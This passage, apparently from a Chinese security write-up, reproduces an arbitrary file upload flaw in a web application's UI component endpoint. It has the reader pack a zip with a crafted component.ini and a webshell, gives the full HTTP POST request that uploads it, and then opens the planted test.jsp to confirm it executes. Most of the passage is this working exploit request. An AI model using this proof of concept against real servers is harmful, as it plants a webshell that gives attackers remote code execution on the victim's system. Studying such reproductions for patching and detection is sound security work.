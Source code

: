 ## 0x02 漏洞复现

首先创建一个压缩文件里面包含`component.ini`和`webshell`

其中`component.ini`配置如下：

```php
id=2023
name=check.txt
```

两者打包成压缩包，通过如下 poc 上传

```php
POST /sys/ui/sys_ui_component/sysUiComponent.do?method=getThemeInfo&s_ajax=true HTTP/1.1
Host: IP:PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: http://.com/sys/ui/sys_ui_component/sysUiComponent.do?method=upload
Content-Length: 474
Content-Type: multipart/form-data; boundary=---------------------------15610248407689
Cookie: SESSION=YmI0OGMyZDQtZDE0NC00MTQ2LWJmMzMtNWE5NDMwOTYxM2Ex
DNT: 1
Connection: close

-----------------------------15610248407689
Content-Disposition: form-data; name="file"; filename="test.zip"
Content-Type: application/x-zip-compressed

PKx3;x4;x14;
-----------------------------15610248407689
```

![image-20231207183340445](assets/1703831543-5f343434efeda44fa7288509b5a1e888.jpg)

访问`/resource/ui-component/2023/test.jsp`，成功解析
